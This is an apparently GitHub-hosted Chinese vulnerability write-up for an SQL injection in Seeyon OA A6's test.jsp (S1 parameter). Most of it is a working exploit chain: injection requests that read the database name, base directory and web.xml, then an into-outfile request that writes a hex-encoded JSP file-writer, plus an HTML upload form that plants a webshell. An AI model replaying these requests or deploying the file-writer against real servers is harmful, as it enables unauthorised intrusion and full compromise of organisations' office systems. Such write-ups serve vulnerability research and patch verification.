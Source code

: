 # 致远OA A6 test.jsp sql注入漏洞

### 一、漏洞简介

致远A6协同系统 /yyoa/common/js/menu/test.jsp 文件 S1 参数SQL注入漏洞

### 二、漏洞影响

致远OA A6

### 三、复现过程

注入点为S1变量，通过探测，发现是mysql数据库


```bash
http:/url/yyoa/common/js/menu/test.jsp?doType=101&S1=
```

于是构造注入语句查询数据库名：


```bash
http://url/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20database())
```

![](images/15897235160373.png)


Mysql注入中，我们使用into outfile 来写入数据，用此方法注入webshell，前提条件两个：

1：root权限

2：物理路径

我们探测一下web根目录


```bash
http://url/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20@@basedir)
```

![](images/15897235354285.png)


通过yyoa目录结构猜测物理路径为


```bash
F:/UFseeyon/OA/tomcat/webapps/yyoa/
```

可以使用load_file判断是否正确


```bash
http://url/yyoa/common/js/menu/test.jsp?doType=101&S1=select%20load_file(%27F:/UFseeyon/OA/tomcat/webapps/yyoa/WEB-INF/web.xml%27)
```

利用mysql into outfile写shell：由于jsp一句话超长，请求连接会拒绝，故先上传写文件脚本，再本地构造进行webshell上传：


```java
<%if(request.getParameter("f")!=null)(new java.io.FileOutputStream(application.getRealPath("\\")+request.getParameter("f"))).write(request.getParameter("t").getBytes());%>
```

由于特殊符号存在，URL编码会造成写入后代码错误，故采用hex编码后unhex处理上传，写入文件名为：he1p.jsp


```bash
http://url/yyoa/common/js/menu/test.jsp?doType=101&S1=select%20unhex(%273C25696628726571756573742E676574506172616D657465722822662229213D6E756C6C29286E6577206A6176612E696F2E46696C654F757470757453747265616D286170706C69636174696F6E2E6765745265616C5061746828225C22292B726571756573742E676574506172616D65746572282266222929292E777269746528726571756573742E676574506172616D6574657228227422292E67657442797465732829293B253E%27)%20%20into%20outfile%20%27F:/UFseeyon/OA/tomcat/webapps/yyoa/he1p.jsp%27
```

本地构造上传：


```html
<html>
    <form action="http://url/yyoa/he1p.jsp?f=we1come.jsp" method="post">
        <textarea name=t cols=120 rows=10 width=45>your code</testarea>
        <input type=submit value="提交">
    </form>
</html>
```

上传后获取webshell地址为：`http://url/yyoa/we1come.jsp`

参考链接

https://www.pa55w0rd.online/yyoa/